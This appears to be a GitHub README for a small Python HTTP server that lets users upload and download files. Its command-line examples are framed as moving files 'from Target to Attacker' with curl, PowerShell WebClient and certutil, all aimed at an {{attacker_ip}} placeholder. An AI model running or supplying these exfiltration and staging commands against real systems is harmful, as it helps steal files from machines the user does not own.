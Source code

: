 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system via a web browser or command line. Perfect for sharing files across local networks quickly and safely (for trusted environments).

---

## ✅ Features

- 📂 Browse directories via a web browser  
- 📥 Download files via direct links  
- ⬆️ Upload files via web interface  
- 🧾 Upload files via `curl` using the `PUT` method  
- 📁 Uploaded files respect the path based on browser or CLI context  
- ⚙️ Works on **Linux**, **macOS**, and **Windows**  
- 🚫 100% standard Python no third-party dependencies  

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)  
- Open network port (default: `8080`)  
- No installation or configuration required  

---

## 🚀 Getting Started

### Clone or Download
```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 Httpseever3.py
#Or

python2 Httpserver2.py
```


## 🌐 Web Interface

- Open `http://<your-ip>:8080/` in your browser  
- Navigate folders by clicking on links  
- Use the upload form to send files to the current folder  
- Uploaded files are saved in the **current folder you are viewing**  

---

## 📤 Upload & Download via Command Line

### Linux

#### Upload
```bash
curl -T file http://<attacker-ip>:8080/
```

#### Download
```bash
wget http://<attacker-ip>:8080/file.txt
```

### Windows

#### Upload 
```powershell
# Windows: Upload Files from Target to Attacker
# Upload via cURL (Windows 10+)
curl -T C:\Users\Public\file.txt http://{{attacker_ip}}:{{my_port}}/file.txt

# Upload via PowerShell WebClient
(New-Object System.Net.WebClient).UploadFile("http://{{attacker_ip}}:{{my_port}}/file.txt", "PUT", "C:\Users\chitt\Desktop\report.txt")

# Upload via CMD (inline PowerShell)
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://{{attakcer_ip}}:{{my_port}}/file.txt','PUT','C:\Users\chitt\Desktop\report.txt')"
```

#### Download 
```powershell
# Windows: Download file from attacker -> target

# PowerShell (Win7+, modern & reliable)
Invoke-WebRequest -Uri "http://{{target_ip}}:{{my_port}}/file.txt" -OutFile "C:\Users\Public\file.txt"

# CMD or PowerShell (works everywhere, older trick)
certutil -urlcache -split -f "http://{{target_ip}}:{{my_port}}/file.txt" "C:\Users\Public\file.txt"

# CMD or PowerShell (Win10+/Server2019+ only)
curl -o C:\Users\Public\file.txt http://{{target_ip}}:{{my_port}}/file.txt
```

## 🛡 Security Warning

⚠️ This tool is **not secure for public or internet-facing use**:  

- No authentication or encryption  
- No user restrictions  
- Anyone on the network can access, upload, or download files  

✅ **Use only:**  

- On local networks  
- With trusted users  
- In controlled environments
